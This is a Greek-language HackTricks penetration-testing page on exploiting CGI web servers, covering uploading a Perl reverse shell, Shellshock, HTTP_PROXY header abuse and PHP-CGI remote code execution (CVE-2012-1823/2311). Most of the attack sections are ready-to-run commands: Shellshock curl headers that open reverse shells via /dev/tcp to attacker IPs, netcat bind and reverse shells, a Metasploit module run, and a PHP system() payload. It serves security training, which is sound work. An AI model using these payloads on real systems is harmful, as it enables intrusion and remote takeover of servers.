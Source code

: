 {% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Εμβαθύνετε την εμπειρία σας στην **Ασφάλεια Κινητών** με την 8kSec Academy. Κατακτήστε την ασφάλεια iOS και Android μέσω των αυτορυθμιζόμενων μαθημάτων μας και αποκτήστε πιστοποίηση:

{% embed url="https://academy.8ksec.io/" %}


# Πληροφορίες

Τα **CGI scripts είναι perl scripts**, οπότε, αν έχετε παραβιάσει έναν διακομιστή που μπορεί να εκτελεί _**.cgi**_ scripts μπορείτε να **ανεβάσετε ένα perl reverse shell** \(`/usr/share/webshells/perl/perl-reverse-shell.pl`\), **να αλλάξετε την επέκταση** από **.pl** σε **.cgi**, να δώσετε **δικαιώματα εκτέλεσης** \(`chmod +x`\) και να **πρόσβαση** στο reverse shell **από τον web browser** για να το εκτελέσετε.
Για να δοκιμάσετε για **CGI vulns** συνιστάται να χρησιμοποιήσετε `nikto -C all` \(και όλα τα plugins\)

# **ShellShock**

**ShellShock** είναι μια **ευπάθεια** που επηρεάζει το ευρέως χρησιμοποιούμενο **Bash** command-line shell σε λειτουργικά συστήματα βασισμένα σε Unix. Στοχεύει στην ικανότητα του Bash να εκτελεί εντολές που περνούν από εφαρμογές. Η ευπάθεια έγκειται στη χειραγώγηση των **μεταβλητών περιβάλλοντος**, οι οποίες είναι δυναμικές ονομαστικές τιμές που επηρεάζουν το πώς εκτελούνται οι διαδικασίες σε έναν υπολογιστή. Οι επιτιθέμενοι μπορούν να εκμεταλλευτούν αυτό προσ attaching **κακόβουλο κώδικα** σε μεταβλητές περιβάλλοντος, ο οποίος εκτελείται μόλις ληφθεί η μεταβλητή. Αυτό επιτρέπει στους επιτιθέμενους να παραβιάσουν δυνητικά το σύστημα.

Εκμεταλλευόμενοι αυτή την ευπάθεια, η **σελίδα θα μπορούσε να ρίξει ένα σφάλμα**.

Μπορείτε να **βρείτε** αυτή την ευπάθεια παρατηρώντας ότι χρησιμοποιεί μια **παλιά έκδοση Apache** και **cgi\_mod** \(με φάκελο cgi\) ή χρησιμοποιώντας **nikto**.

## **Δοκιμή**

Οι περισσότερες δοκιμές βασίζονται στο να εκτυπώνουν κάτι και να περιμένουν ότι αυτή η συμβολοσειρά θα επιστραφεί στην απάντηση του web. Αν νομίζετε ότι μια σελίδα μπορεί να είναι ευάλωτη, αναζητήστε όλες τις σελίδες cgi και δοκιμάστε τις.

**Nmap**
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
## **Curl \(αντανάκλαση, τυφλό και εκτός ζώνης\)**
```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```
[**Shellsocker**](https://github.com/liamim/shellshocker)
```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
## Εκμετάλλευση
```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```
# **Proxy \(MitM σε αιτήματα Web server\)**

Το CGI δημιουργεί μια μεταβλητή περιβάλλοντος για κάθε κεφαλίδα στην http αίτηση. Για παράδειγμα: "host:web.com" δημιουργείται ως "HTTP\_HOST"="web.com"

Καθώς η μεταβλητή HTTP\_PROXY θα μπορούσε να χρησιμοποιηθεί από τον web server. Προσπαθήστε να στείλετε μια **κεφαλίδα** που περιέχει: "**Proxy: &lt;IP\_attacker&gt;:&lt;PORT&gt;**" και αν ο server εκτελεί οποιοδήποτε αίτημα κατά τη διάρκεια της συνεδρίας. Θα είστε σε θέση να καταγράψετε κάθε αίτημα που γίνεται από τον server.

# Παλιό PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

Βασικά, αν το cgi είναι ενεργό και το php είναι "παλιό" \(&lt;5.3.12 / &lt; 5.4.2\) μπορείτε να εκτελέσετε κώδικα.
Για να εκμεταλλευτείτε αυτήν την ευπάθεια, πρέπει να έχετε πρόσβαση σε κάποιο αρχείο PHP του web server χωρίς να στείλετε παραμέτρους \(ειδικά χωρίς να στείλετε τον χαρακτήρα "="\).
Στη συνέχεια, για να δοκιμάσετε αυτήν την ευπάθεια, μπορείτε να αποκτήσετε πρόσβαση για παράδειγμα στο `/index.php?-s` \(σημειώστε το `-s`\) και **ο πηγαίος κώδικας της εφαρμογής θα εμφανιστεί στην απάντηση**.

Στη συνέχεια, για να αποκτήσετε **RCE** μπορείτε να στείλετε αυτήν την ειδική ερώτηση: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` και ο **PHP κώδικας** να εκτελείται στο **σώμα της αίτησης.
Παράδειγμα:**
```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
**Περισσότερες πληροφορίες σχετικά με την ευπάθεια και τις πιθανές εκμεταλλεύσεις:** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**CTF Writeup Example**](https://github.com/W3rni0/HacktivityCon_CTF_2020#gi-joe)**.**


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Εμβαθύνετε την εμπειρογνωμοσύνη σας στην **Ασφάλεια Κινητών** με την 8kSec Academy. Κατακτήστε την ασφάλεια iOS και Android μέσω των αυτορυθμιζόμενων μαθημάτων μας και αποκτήστε πιστοποίηση:

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
